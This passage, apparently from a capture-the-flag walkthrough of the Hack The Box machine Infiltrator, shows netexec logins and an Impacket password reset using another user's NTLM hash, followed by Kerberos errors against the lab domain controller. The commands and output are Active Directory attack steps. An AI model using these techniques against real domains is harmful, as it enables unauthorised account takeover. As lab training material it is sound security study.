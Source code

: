 The creds for M.Harris have the same restrictions as D.Anderson:

```

oxdf@hacky$ netexec smb infiltrator.htb -u m.harris -p '0xdf0xdf!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:0xdf0xdf! STATUS_ACCOUNT_RESTRICTION 
oxdf@hacky$ netexec winrm infiltrator.htb -u m.harris -p '0xdf0xdf!'
WINRM       10.10.11.31     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb)
WINRM       10.10.11.31     5985   DC01             [-] infiltrator.htb\m.harris:0xdf0xdf!

```

Originally I used `changepasswd.py` (from [Impacket](https://github.com/SecureAuthCorp/impacket)). I believe this worked back when Infiltrator released, but today it gives:

```

oxdf@hacky$ changepasswd.py infiltrator.htb/m.harris@dc01.infiltrator.htb -althash :b02e97f2fdb5c3d36f77375383449e56 -reset -dc-ip dc01.infiltrator.htb -newpass '0xdf0xdf!' -altuser e.rodriguez
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Setting the password of infiltrator.htb\m.harris as infiltrator.htb\e.rodriguez
[*] Connecting to DCE/RPC as infiltrator.htb\e.rodriguez
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.

```

The password changes, but there’s a warning at the end that the AES keys for Kerberos are not correct. Using Kerberos will fail with `KDC_ERR_ETYPE_NOSUPP`:

```

oxdf@hacky$ netexec smb infiltrator.htb -u m.harris -p '0xdf0xdf!' -k
SMB         infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         infiltrator.htb 445    DC01             [-] infiltrator.htb\m.harris:0xdf0xdf! KDC_ERR_ETYPE_NOSUPP

```

Trying to get a ticket will fail with the same error:

```

oxdf@hacky$ getTGT.py 'infiltrator.htb/m.harris:0xdf0xdf!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)

```
